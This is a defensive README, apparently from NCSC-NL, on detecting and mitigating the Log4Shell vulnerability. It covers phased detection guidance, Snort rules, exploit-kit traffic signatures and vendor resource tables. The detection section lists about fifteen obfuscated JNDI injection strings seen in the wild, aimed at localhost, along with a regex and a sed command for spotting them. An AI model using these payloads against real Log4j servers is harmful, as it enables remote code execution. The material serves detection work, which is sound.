

# Log4Shell Detection & Mitigation

This page contains an overview of any detection and mitigation software regarding the Log4j vulnerability. On this page NCSC-NL will maintain a list of all known rules to detect Log4j presence or (suspected) exploitation. Furthermore, any references will contain specific information regarding detection and mitigation.

**NCSC-NL has not verified the rules and software listed below and therefore cannot guarantee the validity of said rules.
However, NCSC-NL strives to provide rules and detection and mitigation software from reliable sources.**

Table of Contents:
1. [Overall mitigation process](#overview)
1. [Detection Guidance](#detection-guidance)
    - [Phase 1: Identify who is scanning the environment for vulnerable machines.](#phase-1-identify-who-is-scanning-the-environment-for-vulnerable-machines)
    - [Phase 2: Identify if a vulnerable application has attempted to retrieve the malicious code for potential execution.](#phase-2-identify-if-a-vulnerable-application-has-attempted-to-retrieve-the-malicious-code-for-potential-execution)
    - [Phase 3: Download of the malicious code and execution of the malicious code on the vulnerable machine.](#phase-3-download-of-the-malicious-code-and-execution-of-the-malicious-code-on-the-vulnerable-machine)
2. [Detection](#detection)
    - [Overall JNDI detection regex](#overall-jndi-detection-regex)
    - [Behavior of injected JNDI strings in vulnerable Log4J instances](#behavior-of-injected-jndi-strings-in-vulnerable-log4j-instances)
    - [Metadata Detection](#metadata-detection)
    - [SNORT Rules](#snort-rules)
    - [PCAP Examples with JNDI exploits](#pcap-examples-with-jndi-exploits)
4. [Opensource Intelligence](#opensource-intelligence)
    - [Network based detection](#network-based-detection)
    - [Web-server mitigation](#web-server-mitigation)
    - [Host based detection](#host-based-detection)
    - [Generic detection guidance](#generic-detection-guidance)
5. [Closed source intelligence](#closed-source-intelligence)

## Overall mitigation process

Complete guide to the Log4Shell vulnerability from the point of view of [Operators of essential services](https://eur-lex.europa.eu/legal-content/EN/TXT/?uri=uriserv:OJ.L_.2016.194.01.0001.01.ENG&toc=OJ:L:2016:194:TOC) is available in the [Log4Shell for OES - presentation slides](Log4Shell%20for%20OES.pdf). The presentation includes:

- description of the vulnerability
- mitigation methodology and templates for CISO or other security managers
- detailed steps for mitigation on technical level (patching is *not* enough)
  - identify all vulnerable software and hardware
  - prioritise and plan
  - mitigate: patching and other mitigation methods, and which to chose
  - assume compromise / check for signs of compromise (and follow-up process)
  - build visibility
  - build resiliency

The rest of this page provides a different take on some selected technical parts of the process and does not cover all topics and themes presented in the above slide deck.

## Detection Guidance


** Credits to Deloitte and GovCERT.ch for the [image and the report](Log4j%20Attack%20Detection%20Guidance%20-%20Release.pdf) on which this section is based.

Detection can be split up to three phases:
1. [Identify who is scanning the environment for vulnerable machines.](#phase-1-identify-who-is-scanning-the-environment-for-vulnerable-machines)
2. [Identify if a vulnerable application has attempted to retrieve the malicious code for potential execution.](#phase-2-identify-if-a-vulnerable-application-has-attempted-to-retrieve-the-malicious-code-for-potential-execution)
3. [Download of the malicious code and execution of the malicious code on the vulnerable machine.](#phase-3-download-of-the-malicious-code-and-execution-of-the-malicious-code-on-the-vulnerable-machine)

### Phase 1: Identify who is scanning the environment for vulnerable machines

**Detection:**
1. Scan inbound requests in the proxy/firewall/load balancer logs.
2. Investigate the application logs to determine web requests which contain indicators of scanning attempts.
3. Identify the source and protocol used by the attack.

**Logs:**
1. Web proxy (inbound)
   - See the [JNDI regex guide](#overall-jndi-detection-regex).
2. Firewall (inbound)
   - See the [JNDI regex guide](#overall-jndi-detection-regex).
3. Web application firewall (inbound)
   - See the [JNDI regex guide](#overall-jndi-detection-regex).
4. Load balancer (inbound)
   - See the [JNDI regex guide](#overall-jndi-detection-regex).
5. IDS/IPS (across the network)
   - See the [JNDI regex guide](#overall-jndi-detection-regex).
6. Application logs (Log4J) (inbound)    - See [here](#behavior-of-injected-jndi-strings-in-vulnerable-log4j-instances) for more information about the log-writing behavior of vulnerable Log4J instances.
7. IP addresses of attackers which are known to actively exploit the vulnerability (enrichment)
   - See [../iocs/README.md]

**Possible conclusion:**
1. Somebody has scanned your asset to identify if it is vulnerable.

### Phase 2: Identify if a vulnerable application has attempted to retrieve the malicious code for potential execution.

**Detection:**
1. Identify whether the outbound request has been blocked or allowed.
2. Identify the source IP of the attack and determine if the IP is known to present a malicious payload to execute code or if the IP has been used to scan for vulnerabilities to obtain risk context.

**Logs:**
1. Web proxy (outbound) 
2. Firewall (outbound)
3. Load balancer (outbound)
4. IDS/IPS (across the network)
5. Machine logs (Sysmon/security logs)
   - See [here](#behavior-of-injected-jndi-strings-in-vulnerable-log4j-instances) for more information about the log-writing behavior of vulnerable Log4J instances.
6. IP addresses of attackers which are known to actively exploit the vulnerability (enrichment)
   - See [../iocs/README.md]

**Possible conclusion:**
1. The targeted application is vulnerable and has contacted the remote server to download a payload. You still need to verify whether this was a scan from a benign actor or an actual attack, by verifying whether a malicious payload was retrieved to the application’s host.

### Phase 3: Download of the malicious code and execution of the malicious code on the vulnerable machine

**Detection:**
1. Identify if the malicious payload has passed any network device (proxy, firewall, load balancer, IDS/IPS).
2. Investigate the local machine if the server process has initiated any new child processes which show signs of malicious intent.
3. Generic signs of command-and-control or beaconing traffic.

**Logs:**
1. Web proxy (inbound)
2. Firewall (inbound)
3. Load balancer (inbound)
4. IDS/IPS (across the network)
5. Application logs (Log4J) (inbound)    - See [here](#behavior-of-injected-jndi-strings-in-vulnerable-log4j-instances) for more information about the log-writing behavior of vulnerable Log4J instances.
6. Machine logs (Sysmon/security logs)
   - Some exploitation attempts have been observed where Log4J crashes while attempting to execute a malicious LDAP payload. Machine/System logs might provide stack traces of these failures.
7. Process monitoring

**Possible conclusion:**
1. The targeted application has downloaded the
   malicious payload. Execution of the payload can be
   identified through host-based process monitoring and
   forensic analysis.

## Detection 
### Overall JNDI detection regex
Used in the wild obfuscation examples:
```plain
{env:NOTHING:-j}\u0024{lower:N}\\u0024{lower:${upper:d}}}i:dns:/127.0.0.1:1389}
${${::-j}nd${upper:ı}:rm${upper:ı}://127.0.0.1:1389}
${${base64:JHtqbmRpOmxkYXA6YWRkcn0=}}
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//127.0.0.1:1389}
${jndi:${lower:l}${lower:d}a${lower:p}://$127.0.0.1:1389}
${jndi:${lower:l}${lower:d}a${lower:p}://127.0.0.1:1389
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://127.0.0.1/Binary}
${jndi:dns://127.0.0.1:1389}
${jndi:rmi://127.0.0.1:1389}
${jndi:dns:${jndi:pwd}${jndi:pwd}127.0.0.1:1389}
${jndi:ldap://127.0.0.1:1099/obj}
${${upper:j}n${lower:d}${lower:i}:l${lower:d}${lower:a}${lower:p}${lower::}${lower:/}${lower:/}1${lower:2}${lower:7}.0${lower:.}0${lower:.}${lower:1}${lower::}10${lower:9}9${lower:/}o${lower:b}j}
${${upper:j}${lower:n}${lower:d}${lower:i}${lower::}${lower:l}${lower:d}${lower:a}${lower:p}${lower::}${lower:/}${lower:/}${lower:1}${lower:2}${lower:7}${lower:.}${lower:0}${lower:.}${lower:0}${lower:.}${lower:1}${lower::}${lower:1}${lower:0}${lower:9}${lower:9}${lower:/}${lower:o}${lower:b}${lower:j}}
${jndi:ld${ozI:Kgh:Qn:TXM:-a}p:${DBEau:Y:pLXUu:SfRKk:vWu:-/}${x:UMADq:-/}127${lt:tWd:iEVW:pD:tGCr:-.}${jFpSDW:z:SN:AuqM:C:-0}${dxxilc:HTFa:QLgii:pv:-.}0.${a:l:urnrtk:-1}:1099${zlSEqQ:T:qg:o:-/}ob${E:yJDsbq:-j}}
${${eh:wDUdos:jKY:-j}${xksV:Xgi:-n}${hNdb:SbmXU:goWgvJ:iqAV:Ux:-d}${MXWN:oOi:c:UxXzcI:-i}${DYKgs:tHlY:-:}${d:FHdMm:fw:-l}${Gw:-d}${LebGxe:c:SxLXa:-a}${echyWc:BE:NBO:s:gVbT:-p}${l:QwCL:gzOQm:gqsDS:-:}${qMztLn:e:E:WS:-/}${NUu:S:afVNbT:kyjbiE:-/}${PtGUfI:WcYh:c:-1}${YoSJ:KUV:uySK:crNTm:-2}${EwkY:EsX:S:wk:-7}${HUWOJ:MMIxOn:S:-.}${MHF:s:-0}${obrJVU:RPw:d:A:-.}${E:RgY:j:-0}${MaOtbM:-.}${O:-1}${zzfuGD:YEyvy:mhp:T:-:}${vlaw:WuOBz:-1}${HAjxt:ziBgmc:-0}${UKVBrk:sNAKe:F:qXNetQ:mdIuOW:-9}${geJs:sgYgQW:oOd:qOGf:aYpAkP:-9}${UonINv:-/}${aTygHK:pbQiTB:KkXhKS:-o}${FMRAKM:-b}${wiu:vKIVuh:-j}}
```

The regular expression (regex) which can detect obfuscations:
```plain
(?im)(?:^|[\n]).*?(?:[\x24]|%(?:25%?)*24|\\u?0*(?:44|24))(?:[\x7b]|%(?:25%?)*7b|\\u?0*(?:7b|173))[^\n]*?((?:j|%(?:25%?)*(?:4a|6a)|\\u?0*(?:112|6a|4a|152))[^\n]*?(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))[^\n]*?(?:[\x3a]|%(?:25%?)*3a|\\u?0*(?:72|3a))[^\n]*?((?:l|%(?:25%?)*(?:4c|6c)|\\u?0*(?:154|114|6c|4c))[^\n]*?(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:a|%(?:25%?)*(?:41|61)|\\u?0*(?:101|61|41|141))[^\n]*?(?:p|%(?:25%?)*(?:50|70)|\\u?0*(?:70|50|160|120))(?:[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163)))?|(?:r|%(?:25%?)*(?:52|72)|\\u?0*(?:122|72|52|162))[^\n]*?(?:m|%(?:25%?)*(?:4d|6d)|\\u?0*(?:4d|155|115|6d))[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))|(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))|(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))|(?:[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))){2}[^\n]*?(?:o|%(?:25%?)*(?:4f|6f)|\\u?0*(?:6f|4f|157|117))[^\n]*?(?:p|%(?:25%?)*(?:50|70)|\\u?0*(?:70|50|160|120))|(?:c|%(?:25%?)*(?:43|63)|\\u?0*(?:143|103|63|43))[^\n]*?(?:o|%(?:25%?)*(?:4f|6f)|\\u?0*(?:6f|4f|157|117))[^\n]*?(?:r|%(?:25%?)*(?:52|72)|\\u?0*(?:122|72|52|162))[^\n]*?(?:b|%(?:25%?)*(?:42|62)|\\u?0*(?:102|62|42|142))[^\n]*?(?:a|%(?:25%?)*(?:41|61)|\\u?0*(?:101|61|41|141))|(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))|(?:h|%(?:25%?)*(?:48|68)|\\u?0*(?:110|68|48|150))(?:[^\n]*?(?:t|%(?:25%?)*(?:54|74)|\\u?0*(?:124|74|54|164))){2}[^\n]*?(?:p|%(?:25%?)*(?:50|70)|\\u?0*(?:70|50|160|120))(?:[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163)))?)[^\n]*?(?:[\x3a]|%(?:25%?)*3a|\\u?0*(?:72|3a))|(?:b|%(?:25%?)*(?:42|62)|\\u?0*(?:102|62|42|142))[^\n]*?(?:a|%(?:25%?)*(?:41|61)|\\u?0*(?:101|61|41|141))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))[^\n]*?(?:e|%(?:25%?)*(?:45|65)|\\u?0*(?:45|145|105|65))[^\n]*?(?:[\x3a]|%(?:25%?)*3a|\\u?0*(?:72|3a))(JH[s-v]|[\x2b\x2f-9A-Za-z][CSiy]R7|[\x2b\x2f-9A-Za-z]{2}[048AEIMQUYcgkosw]ke[\x2b\x2f-9w-z]))
```
Source: https://github.com/back2root/log4shell-rex

RegEx101: https://regex101.com/r/KqGG3W/24

### Deobfuscation method
The following method can be used for deobfuscation:
```
sed -E -e 's/%24/\$/'g -e 's/%7B/{/'gi -e 's/%7D/\}/'gi -e 's/%3A/:/'gi -e 's/%2F/\//'gi -e 's/\\(\\*u0*|\\*0*)44/\$/'g -e 's/\\(\\*u0*|\\*0*)24/\$/'g -e 's/\$\{(lower:|upper:|::-)([^\}]+)\}/\2/'g -e 's/\$\{(lower:|upper:|::-)([^\}]+)\}\}/\2/'g -e 's/\$\{[^-$]+-([^\}]+)\}/\1/'g input.txt >> output.txt
```
Example:
```
${${::-j}nd${upper:ı}:rm${upper:ı}://127.0.0.1:1389} ->> ${jndı:rmı://127.0.0.1:1389}
```
Thanks and credits to Aholzel (https://github.com/aholzel).

#### Caveats
- Please note that due to nested resolution of `${...}` and multiple available obfuscation methods, this regular expression may not detect all forms of exploitation. It is impossible to write exhaustive regular expression.
- This regular expression only works on URL-decoded logs. URL encoding is a popular second layer of obfuscation currently in use by attackers. 

> **Warning:** In a non-vulnerable Log4J instance injected JNDI strings will be logged by Log4J but not evaluated. However the presence of injected JNDI strings in log files written to by Log4J does not mean your Log4J instance is not vulnerable, since JNDI strings might also be logged (and evaluated) in vulnerable Log4J instances. See the section [Behavior of injected JNDI strings in vulnerable Log4J instances](#behavior-of-injected-jndi-strings-in-vulnerable-log4j-instances) below for more details.

### Behavior of injected JNDI strings in vulnerable Log4J instances
Injected JNDI strings are displayed differently in log files written to by a vulnerable Log4J instance depending on the situation. A JNDI string is always evaluated first (e.g. a DNS/LDAP/RMI request is sent). Depending on the response a different result is logged:

- In case no successful (e.g. a DNS NXDOMAIN response or no response at all) response is received, the injected JNDI string will be displayed.
- In case a response is received the corresponding classname will be logged such as `com.sun.jndi.dns.DnsContext@<hashcode>` for DNS. In case of RMI the loaded local class will be displayed, for example `javax.el.ELProcessor@<hashcode>`, but this might be any class on the vulnerable host loaded by an attacker.
- Some cases have been observed where LDAP requests are being sent and a malicious class being loaded/executed, but no logging was written by Log4J, probably due to Log4J crashing while executing/evaluating the provided class. 

> **Java Hashcodes**:
When an object is printed it is followed by a `@<hashcode>`. For example: `com.sun.jndi.dns.DnsContext@28a418fc`. Java uses the hash of an object to perform actions such as sorting a collection of object. For more information see [Object::hashCode](https://docs.oracle.com/javase/7/docs/api/java/lang/Object.html#hashCode()).

Presence of these signatures in log files written to by Log4J is a strong sign of successful exploitation, but you should investigate whether these signatures appeared due to your own actions (e.g. Log4J scanning tools):

Class signatures:
```plain
com.sun.jndi.dns.DnsContext
com.sun.jndi.ldap.LdapCtx
javax.el.ElProcessor
groovy.lang.GroovyShell
```
**Note:** Hashcodes are omitted because they change based on the value in the fields of Java object.

> **Warning**: Since RMI can be used to load classes on the vulnerable Log4J system the list presented here cannot be seen as a complete. Other classes might be loaded and misused to manipulate the system.**

More generic strings:
```plain
com.sun.jndi.
Error looking up JNDI resource
```

### Metadata Detection
Metadata detection rules for web traffic:
```
JNDIExploit
http.method = 'GET'
http.uri = '/Exploit[a-zA-Z0-9]{10}.class'
http.user_agent = 'Java/.*' (depends on version installed on system)
http.response_mime_type = 'application/x-java-applet'
http.response_body = Java-class file (0xcafebabe00 file magic)

JNDI-Exploit-Kit
http.method = 'GET'
http.uri = '/ExecTemplateJDK[5678].class'
User-agent = 'Java/.*' (depends on version installed on system)
http.response_mime_type = 'application/x-java-applet'
http.response_body = Java-class file (0xcafebabe00 file magic)

Marshallsec
http.uri = '*.class'
http.user_agent = 'Java/.*' (depends on version installed on system)
http.response_mime_type = 'application/x-java-applet'
http.response_body = Java-class file (0xcafebabe00 file magic)
```

### Snort Rules
```
alert tcp $EXTERNAL_NET any -> $HOME_NET any (msg:"Detection - Log4j LDAP searchResEntry response with javaSerializedData - JNDI-Exploit-Kit"; content:"|30|"; depth:1; content:"|64|"; within:8; content:"javaSerializedData"; content: "javaCodeBase"; content: "http"; within:8; content:"javaClassName"; sid:21122001; priority:1;)
alert tcp $EXTERNAL_NET any -> $HOME_NET any (msg:"Detection - Log4j LDAP response with JNDIExploit framework attributes"; content:"|30|"; depth:1; content:"|64|"; within:8; content:"javaClassName"; content:"javaCodeBase"; content:"http"; within:8; content:"objectClass"; content:"javaFactory"; sid:21122002; priority:1;)
alert tcp $EXTERNAL_NET any -> $HOME_NET any (msg:"Detection - Log4j LDAP searchResEntry response with javaSerializedData - JNDIExploit"; content:"|30|"; depth:1; content:"|64|"; within:8; content: "javaClassName"; content:"javaSerializedData"; sid:21122003; priority:1;)
alert tcp $EXTERNAL_NET any -> $HOME_NET any (msg:"Detection - Log4J RMI ReturnData with Java Serialized Object"; content:"|51 ac ed 00 05|"; depth:5; sid:21122004; priority:2;)
```

### PCAP Examples with JNDI exploits
For PCAP examples with JNDI exploits see [here](../detection_mitigation/Examples)

## Opensource Intelligence
### Network based detection

| Source      | Notes        | Links |
|:----------------|:----------------|:---------------:|
|  NCC Group / Fox-IT | Log4Shell: Reconnaissance and post exploitation network detection | [source](https://research.nccgroup.com/2021/12/12/log4shell-reconnaissance-and-post-exploitation-network-detection/) |

**Snort and Suricata rules:**

| Note             | Rule-range        | Rule |
|:----------------|:----------------|:---------------:|
| These are ET Open free community detections to alert on current exploit activity.  | SID range 2034647-2034652. | [source](https://rules.emergingthreatspro.com/open/) |

### Web-server mitigation
| Web-server      | Source          | Notes           | Links |
|:----------------|:----------------|:----------------|:---------------:|
| Nginx           | Infiniroot      | Block requests with known patterns in URI and headers using LUA | [Github](https://github.com/infiniroot/nginx-mitigate-log4shell) |

ModSecurity OWASP CoreRuleSet :

| Note                     | Rule | Links | 
|:----------------|:----------------|:---------------:|
| Included rule which blocks all, when applied to all headers, with 1 exception.  | 932130 | [source](https://coreruleset.org/20211213/crs-and-log4j-log4shell-cve-2021-44228/) |
| New rule which blocks all  | 1005 | [source](https://coreruleset.org/20211213/crs-and-log4j-log4shell-cve-2021-44228/) [challenge](https://coreruleset.org/20211216/public-hunt-for-log4j-log4shell-evasions-waf-bypasses/) |

### Host based detection

| Source      | Notes        | Links |
|:----------------|:----------------|:---------------:|
| Neo23x0   | Florian Roth Grep and YARA rule for log4j2 exploitation | https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b |
| Neo23x0   | Florian Roth Detects exploitation attempt against log4j RCE vulnerability fields (Sigma rule) | https://github.com/SigmaHQ/sigma/blob/master/rules/web/web_cve_2021_44228_log4j_fields.yml |
| Neo23x0   | Florian Roth Detects exploitation attempt against log4j RCE vulnerability (Sigma rule) | https://github.com/SigmaHQ/sigma/blob/master/rules/web/web_cve_2021_44228_log4j.yml |
| Neo23x0   | Florian Roth Fenrir Simple IOC scanner bash script | https://github.com/Neo23x0/Fenrir |

### Generic detection guidance

| Source      | Notes        | Links |
|:----------------|:----------------|:---------------:|
| w4rguy   | Gerrit Kortlever guidance on which detections can take place in different steps of the attack, which conclusions can be derived from them and which logs are required to detect the attempts | https://github.com/NCSC-NL/log4shell/blob/main/detection_mitigation/Log4j%20Attack%20Detection%20Guidance%20-%20Release.pdf |

## Closed source intelligence

| Supplier        | Product         | Links / Rule|
|:----------------|:----------------|:---------------:|
| Akamai       | Cloud | https://www.akamai.com/blog/news/CVE-2021-44228-Zero-Day-Vulnerability |
| AWS          | Cloud | https://aws.amazon.com/blogs/security/using-aws-security-services-to-protect-against-detect-and-respond-to-the-log4j-vulnerability/ |
| Chaser Systems | discrimiNAT Firewall | https://chasersystems.com/discrimiNAT/blog/log4shell-and-its-traces-in-a-network-egress-filter/ |
| Cloudflare   | Cloud | https://blog.cloudflare.com/cve-2021-44228-log4j-rce-0-day-mitigation/ |
| Citrix     | Citrix WAF | https://www.citrix.com/blogs/2021/12/13/guidance-for-reducing-apache-log4j-security-vulnerability-risk-with-citrix-waf/ |
| Elastic      | Elastic | https://www.elastic.co/blog/detecting-log4j2-with-elastic-security |
| Fortinet      | FortiEDR | https://community.fortinet.com/t5/FortiEDR/Technical-Tip-How-FortiEDR-protects-against-the-exploitation-of/ta-p/201027 |
| Google       | Cloud | https://cloud.google.com/blog/products/identity-security/cloud-armor-waf-rule-to-help-address-apache-log4j-vulnerability |
| Gravwell     | Gravwell | https://www.gravwell.io/blog/cve-2021-44228-log4j-does-not-impact-gravwell-products |
| McAfee    | ePO (ExtraDAT) | https://kc.mcafee.com/corporate/index?page=content&id=KB95091 |
| Microsoft    | Defender | https://www.microsoft.com/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/ |
| Microsoft    | Sentinel| https://www.microsoft.com/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/ |
| Palo Alto Networks   | Prisma Cloud | https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/ |
| Palo Alto Networks   | Firewall | Threat ID 91991 ingested after content update 8498 |
| Tanium   | Tanium | https://community.tanium.com/s/article/How-Tanium-Can-Help-with-CVE-2021-44228-Log4Shell |
| Tenable  | Nessus | https://www.tenable.com/plugins/search?q=cves%3A%28%22CVE-2021-44228%22%29&sort=&page=1 |
| Tenable  | Nessus, Cloud and on prem | https://community.tenable.com/s/article/Plugins-associated-with-CVE-2021-44228-Log4Shell  |
| Trend Micro | Cloud One| LI Rule 1011241 (See also https://success.trendmicro.com/solution/000289946) |
| Qualys  | Cloud Platform | https://blog.qualys.com/vulnerabilities-threat-research/2021/12/10/apache-log4j2-zero-day-exploited-in-the-wild-log4shell |
| Rapid7   | InsightVM and Nexpose | https://www.rapid7.com/blog/post/2021/12/10/widespread-exploitation-of-critical-remote-code-execution-in-apache-log4j/ |
| RSA  | NetWitness | client.all contains "${j" || client.all contains "${J" for possible exploitation use direction = 'outbound' && filetype = 'java class' |
| Rubrik | Rubrik API | https://www.rubrik.com/blog/technology/2021/12/discovering-log4j-using-rubrik-apis |
| Secure2me | Network Intrusion Detection | https://www.secureme2.eu/log4j2-vulnerability/ |
| Splunk | Splunk | https://www.splunk.com/en_us/blog/security/log-jammin-log4j-2-rce.html |
| Splunk | Splunk | https://www.splunk.com/en_us/blog/security/log4shell-detecting-log4j-vulnerability-cve-2021-44228-continued.html |
| Siemplify  | SOAR platform | https://blog.reconinfosec.com/recons-soar-playbook-to-detect-the-log4j-exploit/ |
| Vectra  | Cognito Detect and Cognito Recall | https://www.vectra.ai/blogpost/cve-2021-44228-log4j-zero-day-affecting-the-internet |
